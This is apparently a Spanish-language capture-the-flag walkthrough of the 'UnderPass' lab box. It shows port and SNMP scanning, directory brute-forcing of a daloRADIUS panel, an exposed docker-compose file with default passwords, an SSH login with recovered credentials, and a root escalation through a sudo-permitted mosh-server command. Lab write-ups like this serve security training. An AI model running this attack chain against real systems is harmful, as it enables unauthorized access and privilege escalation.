## Box Info

| Name                  | UnderPass        | 
| :-------------------- | ---------------: |
| Release Date          | 21 Dec, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Recon

```
sudo nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.48 -oG allPorts
nmap -sCV -p 22,80 10.10.11.48 -oN targeted
```

### UDP Scan

```bash
nmap -sU -T5 -n -v 10.10.11.48 -oG udpPorts
```



```bash
nmap -p161 -sU -sCV -T5 -n -v 10.10.11.48
```



```bash
snmpwalk -v2c -c public 10.10.11.48 1
```




```bash
dirsearch -u http://10.10.11.48/daloradius/
```





dirsearch

```bash
[22:21:36] 200 -  221B  - /daloradius/.gitignore
[22:22:26] 301 -  319B  - /daloradius/app  ->  http://10.10.11.48/daloradius/app/
[22:22:45] 200 -   24KB - /daloradius/ChangeLog
[22:23:05] 301 -  319B  - /daloradius/doc  ->  http://10.10.11.48/daloradius/doc/
[22:23:06] 200 -    2KB - /daloradius/Dockerfile
[22:23:06] 200 -    2KB - /daloradius/docker-compose.yml
[22:23:42] 200 -   18KB - /daloradius/LICENSE
[22:23:42] 301 -  323B  - /daloradius/library  ->  http://10.10.11.48/daloradius/library/
[22:24:28] 200 -   10KB - /daloradius/README.md
[22:24:40] 301 -  321B  - /daloradius/setup  ->  http://10.10.11.48/daloradius/setup/
```

File: docker-compose.yml



```ruby
version: "3"

services:

  radius-mysql:
    image: mariadb:10
    container_name: radius-mysql
    restart: unless-stopped
    environment:
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      - MYSQL_ROOT_PASSWORD=radiusrootdbpw
    volumes:
      - "./data/mysql:/var/lib/mysql"

  radius:
    container_name: radius
    build:
      context: .
      dockerfile: Dockerfile-freeradius
    restart: unless-stopped
    depends_on: 
      - radius-mysql
    ports:
      - '1812:1812/udp'
      - '1813:1813/udp'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional settings
      - DEFAULT_CLIENT_SECRET=testing123
    volumes:
      - ./data/freeradius:/data
    # If you want to disable debug output, remove the command parameter
    command: -X

  radius-web:
    build: .
    container_name: radius-web
    restart: unless-stopped
    depends_on:
      - radius
      - radius-mysql
    ports:
      - '80:80'
      - '8000:8000'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional Settings:
      - DEFAULT_CLIENT_SECRET=testing123
      - DEFAULT_FREERADIUS_SERVER=radius
      - MAIL_SMTPADDR=127.0.0.1
      - MAIL_PORT=25
      - MAIL_FROM=root@daloradius.xdsl.by
      - MAIL_AUTH=

    volumes:
      - ./data/daloradius:/data
```

Tenemos el puerto UDP 1812





```bash
dirsearch -u "http://10.10.11.48/daloradius/app/"
```

```ruby
Target: http://10.10.11.48/

[12:24:00] Starting: daloradius/app/

[12:25:43] 301 -  326B  - /daloradius/app/common  ->  http://10.10.11.48/daloradius/app/common/
[12:28:54] 301 -  325B  - /daloradius/app/users  ->  http://10.10.11.48/daloradius/app/users/
[12:28:54] 302 -    0B  - /daloradius/app/users/  ->  home-main.php
[12:28:54] 200 -    2KB - /daloradius/app/users/login.php

Task Completed
```

Directory "Operators"

```ruby
dirsearch -u "http://10.10.11.48/daloradius/app/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```



- Primera web



- Segunda web



Ejecutamos un escaneo de directorios.







Encontramos un login en la segunda pagina web


Usuario




Logeamos con las credenciales obtenidas en ssh

`svcMosh`
`underwaterfriends`



### Privilege Escalation

`sudo -l`





``mosh -h`` para ver que opciones tenemos para escalar privilegios



```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```



